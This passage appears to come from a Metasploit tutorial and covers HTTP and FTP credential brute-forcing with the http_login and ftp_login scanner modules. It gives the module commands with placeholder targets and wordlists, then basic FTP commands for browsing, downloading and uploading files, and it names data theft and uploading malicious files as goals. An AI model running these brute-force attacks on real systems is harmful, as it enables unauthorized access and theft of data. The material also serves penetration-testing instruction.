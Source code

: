 #### How to Use:
```bash
use auxiliary/scanner/http/http_login
set RHOSTS <target-ip>
set TARGETURI /admin
set USER_FILE /path/to/userlist.txt
set PASS_FILE /path/to/passwordlist.txt
run
```
Tips:
- Always check for common login URIs (/admin, /login, /wp-admin) before starting.
- Adjust the timeout settings if you suspect a delay in responses from the server.

### 3. **FTP Brute Force**
The FTP Brute Force module targets FTP servers and attempts to guess usernames and passwords.

#### Why It's Done:
- FTP servers often have weak credentials that can be exploited.
- Gaining access to an FTP service can provide file system access and the potential to upload malicious files or steal sensitive data.

#### How to Use:
```bash
use auxiliary/scanner/ftp/ftp_login
set RHOSTS <target-ip>
set USER_FILE /path/to/userlist.txt
set PASS_FILE /path/to/passwordlist.txt
run
```
Additional FTP Commands (Once Connected):
List files in current directory:
```bash
ls
```
Change directory:
```bash
cd <directory-name>
```
Download a file:
```bash
get <file-name>
```
Upload a file:
```bash
put <file-name>
```
List all FTP users:
```bash
users
```
Get file content (for a downloaded file):
```bash
cat <file-name>
```
